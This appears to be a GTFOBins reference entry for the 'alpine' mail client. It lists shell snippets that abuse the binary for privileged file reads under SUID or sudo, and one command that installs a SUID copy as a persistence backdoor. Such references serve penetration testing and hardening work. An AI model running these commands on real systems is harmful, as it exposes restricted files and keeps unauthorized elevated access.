 # GTFOBin: alpine

The file is displayed in the `alpine` curses terminal interface. Other options might be available, for example by pressing `S` is possible to save the file content elsewhere.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
alpine -F "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which alpine) .

LFILE=file_to_read
./alpine -F "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo alpine -F "$LFILE"
```